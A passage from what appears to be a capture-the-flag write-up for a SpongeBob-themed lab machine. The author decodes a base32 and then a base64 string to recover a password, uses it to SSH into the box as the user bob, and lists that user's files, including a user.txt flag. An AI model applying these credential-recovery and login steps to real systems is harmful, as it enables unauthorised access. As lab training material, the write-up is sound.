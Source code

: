 ```bash
echo 'MMZUE5TCNVSGYTCVJJ3FSZ3PHUFA====' | base32 -d
c3BvbmdlLUJvYgo=
```

Ok... now it seems that we have another encoded string. Maybe try base64?

```bash
echo 'c3BvbmdlLUJvYgo=' | base64 -d
sponge-Bob
```

Perfect, looks like we got a password!

If we remember the note we found in the webpage, Bob's password REALLY needed to be changed, so let's try to SSH into the box using bob as the username and sponge-Bob as our password:

```bash
ssh bob@10.86.239.126
bob@10.86.239.126's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-189-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

New release '18.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Sun Sep  6 21:15:29 2020 from 
bob@KrusyKrab:~$ 
```

SUCCESS! We are now in the box.

Let's look around Bob's folder:

```bash
bob@KrusyKrab:~$ ls -la
total 52
drwxr-xr-x 5 bob  bob  4096 Sep  6 22:56 .
drwxr-xr-x 5 root root 4096 Sep  6 21:23 ..
-rw------- 1 bob  bob   158 Sep  6 21:18 .bash_history
-rw-r--r-- 1 bob  bob   220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 bob  bob  3771 Aug 31  2015 .bashrc
drwx------ 2 bob  bob  4096 Sep  6 17:39 .cache
-rw------- 1 bob  bob    33 Sep  6 21:00 creds.txt
drwxrwxr-x 2 bob  bob  4096 Sep  6 20:31 .nano
-rw-r--r-- 1 bob  bob   655 Jul 12  2019 .profile
-rw-rw-r-- 1 bob  bob    66 Sep  6 20:31 .selected_editor
-rwx------ 1 bob  bob    74 Sep  6 20:59 simple_server.sh
drwxr-xr-x 2 bob  bob  4096 Sep  6 03:51 .ssh
-rw------- 1 bob  bob    38 Sep  6 03:51 user.txt
bob@KrustyKrab:~$ 
```
We see our user.txt flag!
